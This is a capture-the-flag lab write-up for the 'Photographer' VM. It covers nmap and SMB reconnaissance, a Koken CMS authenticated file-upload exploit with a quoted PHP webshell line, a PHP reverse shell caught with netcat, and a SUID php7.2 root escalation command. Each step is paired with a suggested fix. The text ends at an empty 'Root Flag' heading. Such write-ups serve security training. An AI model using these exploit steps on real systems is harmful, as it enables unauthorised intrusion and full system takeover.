






**Vulnerable System**: 
=======================

**Operating System**: Ubuntu 16.04

**Kernel**: 4.15.0

**Vulnerability Exploited**: Arbitrary File Upload – Remote Code Execution

**Exploit Used**: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)

**Proof of Concept Code**: <https://www.exploit-db.com/exploits/48706>

**Vulnerability Explained**: The vulnerability in Koken CMS enables an attacker
to upload a malicious file due to file extension only being checked in the front
end and not in the back end. Due to this vulnerability it is possible to upload
a php file, which then can be used for remote code execution (RCE) in order to
obtain a reverse shell.

**Vulnerability fix**: On top of checking file extension in the front end the
application should also check the file extension on the back end (along with
checking the contents of the file), ensuring only whitelisted file types are
allowed to be uploaded.

**Severity**: **medium**

**Privilege Escalation Vulnerability**: SUID /usr/bin/php7.2 Binary

**Exploit Used**: N/A

**Proof of Concept Code**: /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"

**Privilege Escalation Vulnerability Explained:** SUID aka Set User ID, is a
feature in Linux type operating systems, which allows to execute the file with
permissions of specified user, in this case the user being root. Although some
programs require to be ran with root level permissions, such as ping, in this
case there is no reason to grant php executable root level permissions. Due to
php language being able to execute system level commands, an attacker can simply
use php to spawn a new shell, which will automatically has root level
permissions.

**Vulnerability fix**: Keep proper inventory and account for all SUID binaries
with root level permissions, and ensure only binaries that obsoletely need root
level SUID permissions have them.

**Severity**: **High**

Methodology
-----------

Host Discovery(arp-scan)

Port Scanning (nmap)

Web Port Enumeration (browser, nmap)

Low Privilege Escalation (searchsploit, browser, RCE, netcat)

Privilege Escalation Enumeration (find)

Privilege Escalation (/usr/bin/php7.2)

Reconnaissance
--------------

### Host Discovery (arp-scan)

arp-scan -l -I eth1

Interface: eth1, type: EN10MB, MAC: 00:0c:29:b1:2e:84, IPv4: 192.168.211.140

Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)

192.168.211.1 00:50:56:c0:00:01 VMware, Inc.

192.168.211.152 00:0c:29:e3:d9:6d VMware, Inc.

192.168.211.254 00:50:56:ee:5d:85 VMware, Inc.

### Port Scanning (Nmap)

#### All Ports Scan.

nmap -p- 192.168.211.152 -oA photographer

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-08 14:50 EDT

Nmap scan report for 192.168.211.152

Host is up (0.00075s latency).

Not shown: 65531 closed ports

PORT STATE SERVICE

80/tcp open http

139/tcp open netbios-ssn

445/tcp open microsoft-ds

8000/tcp open http-alt

MAC Address: 00:0C:29:E3:D9:6D (VMware)

#### Aggressive, Version and Default Script Scan.

A more thorough scan of the found ports reveals that there are 2 different web
ports and two SMB related ports. It can be seen that SMB is accessible by guest
user, meaning it can be accessed without credentials. Another interesting thing
to note from the scan above is application version running on port 8000 - Koken
0.22.24.

nmap -A -sV -sC -p 80,139,445,8000 192.168.211.152 -oA photo_AsVsC

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-08 14:51 EDT

Nmap scan report for 192.168.211.152

Host is up (0.00072s latency).

PORT STATE SERVICE VERSION

80/tcp open http Apache httpd 2.4.18 ((Ubuntu))

\|_http-server-header: Apache/2.4.18 (Ubuntu)

\|_http-title: Photographer by v1n1v131r4

139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

8000/tcp open ssl/http-alt Apache/2.4.18 (Ubuntu)

\|_http-generator: Koken 0.22.24

\|_http-server-header: Apache/2.4.18 (Ubuntu)

\|_http-title: daisa ahomi

MAC Address: 00:0C:29:E3:D9:6D (VMware)

Warning: OSScan results may be unreliable because we could not find at least 1
open and 1 closed port

Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 -
3.10 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A
or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager
5.2-5644 (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)

No exact OS matches for host (test conditions non-ideal).

Network Distance: 1 hop

Service Info: Host: PHOTOGRAPHER

Host script results:

\|_clock-skew: mean: -10d08h40m25s, deviation: 2h18m33s, median: -10d10h00m25s

\|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: \<unknown\>, NetBIOS MAC:
\<unknown\> (unknown)

\| smb-os-discovery:

\| OS: Windows 6.1 (Samba 4.3.11-Ubuntu)

\| Computer name: photographer

\| NetBIOS computer name: PHOTOGRAPHER\\x00

\| Domain name: \\x00

\| FQDN: photographer

\|\_ System time: 2020-07-29T04:52:33-04:00

\| smb-security-mode:

\| account_used: guest

\| authentication_level: user

\| challenge_response: supported

\|\_ message_signing: disabled (dangerous, but default)

\| smb2-security-mode:

\| 2.02:

\|\_ Message signing enabled but not required

\| smb2-time:

\| date: 2020-07-29T08:52:33

\|\_ start_date: N/A

TRACEROUTE

HOP RTT ADDRESS

1 0.72 ms 192.168.211.152

### SMB Enumeration (smbclient)

When enumerating the SMB shares with smbclient, it can be seen that one share
stands out - sambashare.

smbclient -L \\\\192.168.211.152

Enter WORKGROUP\\root's password:

Sharename Type Comment

\--------- ---- -------

print\$ Disk Printer Drivers

sambashare Disk Samba on Ubuntu

IPC\$ IPC IPC Service (photographer server (Samba, Ubuntu))

SMB1 disabled -- no workgroup available

When browsing through the share there are 2 files mailsent.txt and
wordpress.bkp.zip, both are downloaded and inspected.

smbclient \\\\\\\\192.168.211.152\\\\sambashare

Enter WORKGROUP\\root's password:

Try "help" to get a list of possible commands.

smb: \\\> ls

. D 0 Mon Jul 20 21:30:07 2020

.. D 0 Tue Jul 21 05:44:25 2020

mailsent.txt N 503 Mon Jul 20 21:29:40 2020

wordpress.bkp.zip N 13930308 Mon Jul 20 21:22:23 2020

278627392 blocks of size 1024. 264268400 blocks available

smb: \\\> get mailsent.txt

getting file \\mailsent.txt of size 503 as mailsent.txt (3.5 KiloBytes/sec)
(average 3.5 KiloBytes/sec)

smb: \\\> get wordpress.bkp.zip

getting file \\wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (32701.5
KiloBytes/sec) (average 24512.3 KiloBytes/sec)

When analyzing mailsent.txt with cat utility, a few interesting things pop up:

Two email addresses: <agi@photographer.com> and <daisa@photographer.com>

What seems to be a password hint of some sort: Don't forget your secret, my
babygirl ;)

cat mailsent.txt

Message-ID: \<4129F3CA.2020509\@dc.edu\>

Date: Mon, 20 Jul 2020 11:40:36 -0400

From: Agi Clarence \<agi\@photographer.com\>

User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1)
Gecko/20020823 Netscape/7.0

X-Accept-Language: en-us, en

MIME-Version: 1.0

To: Daisa Ahomi \<daisa\@photographer.com\>

Subject: To Do - Daisa Website's

Content-Type: text/plain; charset=us-ascii; format=flowed

Content-Transfer-Encoding: 7bit

Hi Daisa!

Your site is ready now.

Don't forget your secret, my babygirl ;)

### Web Port Enumeration (browser)

Once finished with SMB, next step is to enumerate interesting the web ports.
Nothing interesting was found on port 80, however port 8000, as we know from the
portscan, is hosting Koken CMS. Below on the screenshot is the home page of the
application.

By a hunch, /admin folder was typed into the URL, and it seems there is a login
form that needs an email and a password. Both of these pieces of information
were contained in the email that was discovered earlier, username being
<daisa@photographer.com> and password being babygirl.

Low Privilege Exploitation
--------------------------

#### Searchsploit/Exploit-DB

Next searchsploit is used to check if there are any exploits for this particular
software, and it turns out there is a file upload exploit.

searchsploit Koken 0.22.24

\-------------------------------------------------------------------------
---------------------------------

Exploit Title \| Path

\-------------------------------------------------------------------------
---------------------------------

Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated) \|
php/webapps/48706.txt

\-------------------------------------------------------------------------
---------------------------------

Shellcodes: No Results

Papers: No Results

To get more information about the exploit -p flag is used with searchsploit.
This provides URL for the exploit along with the Path of the local copy.
Searchsploit -p also copies the local path to the clip board, which is very
convenient when using cat to display the contents.

searchsploit -p 48706

Exploit: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)

URL: https://www.exploit-db.com/exploits/48706

Path: /usr/share/exploitdb/exploits/php/webapps/48706.txt

File Type: ASCII text, with CRLF line terminators

Copied EDB-ID \#48706's path to the clipboard

cat /usr/share/exploitdb/exploits/php/webapps/48706.txt

\# Exploit Title: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)

\# Date: 2020-07-15

\# Exploit Author: v1n1v131r4

\# Vendor Homepage: http://koken.me/

\# Software Link: https://www.softaculous.com/apps/cms/Koken

\# Version: 0.22.24

\# Tested on: Linux

\# PoC:
https://github.com/V1n1v131r4/Bypass-File-Upload-on-Koken-CMS/blob/master/README.md

The Koken CMS upload restrictions are based on a list of allowed file extensions
(withelist), which facilitates bypass through the handling of the HTTP request
via Burp.

Steps to exploit:

1. Create a malicious PHP file with this content:

\<?php system(\$_GET['cmd']);?\>

2. Save as "image.php.jpg"

3. Authenticated, go to Koken CMS Dashboard, upload your file on "Import
Content" button (Library panel) and send the HTTP request to Burp.

4. On Burp, rename your file to "image.php"

#### RCE via Arbitrary File Upload

Following the exploit steps, instead of creating a malicious php file an already
prepared reverse shell can be used, which is found at
/usr/share/webshells/php/php-reverse-shell.php on Kali Linux. Three changes that
need to be done are changing the file extension to .jpg and the IP address and
port number inside the file to the one of your attacker machine’s IP address and
listening port.

cp /usr/share/webshells/php/php-reverse-shell.php rs.php.jpg

When uploading the file, intercept HTTP request with a web proxy, in this case
it was Burp Suite Community Edition and change the file extension back to php.

#### Reverse Shell

Once that is done use netcat to listen on a port of choice, in this case it was
port 8080 and user browser to browse to the file’s location. Once the reverse
shell is obtained, upgrade the shell to tty using python. The user flag can be
found in /home/daisa/user.txt

nc -nvlp 8080

listening on [any] 8080 ...

connect to [192.168.211.143] from (UNKNOWN) [192.168.211.152] 52948

Linux photographer 4.15.0-107-generic \#108\~16.04.1-Ubuntu SMP Fri Jun 12
02:57:13 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

05:22:39 up 51 min, 0 users, load average: 0.00, 0.00, 0.00

USER TTY FROM LOGIN\@ IDLE JCPU PCPU WHAT

uid=33(www-data) gid=33(www-data) groups=33(www-data)

/bin/sh: 0: can't access tty; job control turned off

\$ python -c "import pty; pty.spawn('/bin/bash')"

www-data\@photographer:/\$ ls /home

ls /home

agi daisa lost+found

www-data\@photographer:/\$ cat /home/daisa/user.txt

cat /home/daisa/user.txt

d41d8cd98f00b204e9800998ecf8427e

Privilege Escalation
--------------------

#### Enumeration

Find utility was used to discover SUID files, with one of them being
/usr/bin/php7.2.

www-data\@photographer:/\$ find / -perm -u=s -type f 2\>/dev/null

find / -perm -u=s -type f 2\>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper

/usr/lib/eject/dmcrypt-get-device

/usr/lib/xorg/Xorg.wrap

/usr/lib/snapd/snap-confine

/usr/lib/openssh/ssh-keysign

/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox

/usr/lib/policykit-1/polkit-agent-helper-1

/usr/sbin/pppd

/usr/bin/pkexec

/usr/bin/passwd

/usr/bin/newgrp

/usr/bin/gpasswd

/usr/bin/php7.2

/usr/bin/sudo

/usr/bin/chsh

/usr/bin/chfn

/bin/ping

/bin/fusermount

/bin/mount

/bin/ping6

/bin/umount

/bin/su

#### Escalation

/usr/bin/php7.2 is then used to summon a new shell by executing an OS command
/bin/sh with a -p flag to make it privileged..

/usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"

\<ginals/49/01\$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"

\# whoami

whoami

root

#### Root Flag

